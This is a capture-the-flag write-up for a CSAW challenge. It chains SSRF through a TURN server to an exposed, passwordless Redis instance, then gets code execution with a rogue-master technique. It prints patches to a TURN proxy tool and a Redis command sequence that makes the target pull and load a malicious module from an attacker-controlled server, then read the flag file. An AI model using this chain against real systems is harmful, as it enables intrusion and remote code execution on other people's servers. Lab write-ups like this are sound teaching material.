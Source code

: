 Following content only illustrates how I solve it. If you are interested in learning what is indeed happening, check [here](https://ctftime.org/writeup/23410)
### 0x00 Challenge

supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www
```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]
```

app.py is indeed just a red herring so I am not gonna put it here.

### 0x01 Thoughts

Obviously, following line in supervisord config file is suspicious:

```
command=timeout 60s redis-server --bind 0.0.0.0
```

Every security guy should know *never bind redis server to 0.0.0.0*. Additionally, no password is set for this redis server, which implies this challenge is likely related to SSRF. 

And by some chance, I do recall that TURN server could lead to some internal network magics. So, I started to do Googling and found https://hackerone.com/reports/333419. Unfortunately, the report's author is so bad that only a pcap file of pwning TURN server is provided. I have replayed these TCP packets and tried different clients, but none worked. Indeed, I spent ~8 hours on patching https://github.com/pion/turn/ and finally gave up. 

Nonetheless,

**After attempting other challenges, I discovered the pattern of this whole CTF**: 

![](https://quicklatex.com/cache3/41/ql_341fbdcdf4001306778c33431e74a941_l3.png)

### 0x02: SSRF

https://github.com/staaldraad/turner finally works for being an HTTP proxy based on TURN server. However, we somehow need to send TCP packets so as to interact with redis server. 

So, being lazy enough, I applied the following change to L106 for `main.go` to send TCP messages to redis server.

```
-   methodLine := fmt.Sprintf("%s %s %s\r\n", r.Method, r.URL.Path, r.Proto)
+   methodLine := fmt.Sprintf("INFO\r\n")
```

And added the following line after L158 to print the response:

```
+   fmt.Println(string(buf[:n]))
```

Then, run this script in terminal (`go build && ./turner -server web.chal.csaw.io:3478`) and set the browser proxy to `127.0.0.1:8080`. By visiting `0.0.0.0:6379`, you can find the information of redis server on the terminal. 

### 0x03: RCE

Since the version of redis server in the docker container is 4.x, we can apply this script: https://github.com/n0b0dyCN/redis-rogue-server

However, since I was too lazy to convert the former HTTP proxy to a socks proxy, I directly dumped the commands sent to the redis server by this RCE script:

```
SLAVEOF [YOUR_ROGUE_SERVER_ADDR] 21000
CONFIG SET dbfilename exp.so
MODULE LOAD ./exp.so
system.exec 'cat /flag.txt'
```

And patched the RCE script at L218 to make it only as a fake master server (rogue server):

```
-   try:
-      runserver(options.rh, options.rp, options.lh, options.lp)
-   except Exception as e:
-      error(repr(e))
+   rogue = RogueServer(options.lh, options.lp)
+   rogue.exp()
```

Then, I again applied the change to L106 for `main.go` in turner:

```
-   methodLine := fmt.Sprintf("INFO\r\n")
+   methodLine := fmt.Sprintf("SLAVEOF [YOUR_ROGUE_SERVER_ADDR] 21000\r\nCONFIG SET dbfilename exp.so\r\nMODULE LOAD ./exp.so\r\nsystem.exec 'cat /flag.txt'\r\n")
```

Finally, run this script again in terminal (`go build && ./turner -server web.chal.csaw.io:3478`) and set the browser proxy to `127.0.0.1:8080`. By visiting `0.0.0.0:6379` and in the meantime constantly restarting rogue server, you can find the flag on the terminal. 

`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`
